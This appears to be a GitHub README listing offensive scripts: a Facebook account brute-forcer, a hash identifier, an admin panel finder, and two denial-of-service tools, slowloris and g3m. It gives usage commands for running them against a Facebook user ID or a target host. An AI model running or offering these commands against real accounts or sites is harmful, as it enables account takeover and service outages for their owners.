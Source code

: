 # Scripts for testing.

* fb-brute.pl = Bruteforce for Facebook
* hash_id_v1.1.py = Hash Identifier
* painel.pl = Admin Control Panel Finder
* slowloris.pl = Denial of Service
* g3m = Denial of Service

How to Install and use
----

`fb-brute.pl`
```sh
$ sudo chmod +x fb-brute.pl
$ perl fb-brute.pl id-user-facebook wordlist.txt
```

`hash_id_v1.1.py`
```sh
$ sudo chmod +x hash_id_v1.1.py
$ python2 hash_id_v1.1.py
``` 

`painel.pl`
```sh
$ sudo chmod +x painel.pl
$ perl painel.pl
```

`slowloris.pl`
```sh
$ sudo chmod +x slowloris.pl
$ perl slowloris.pl -dns www.target.com -port 80 -timeout 1 -num 1000 -tcpto 5
$ perl slowloris.pl -dns IP
```

`g3m`
```sh
$ sudo chmod +x g3m
$ ./g3m -h ip -T 3              #Attack private internet
$ ./g3m -h ip -T 3 -p 80,80     #Attack websites
```
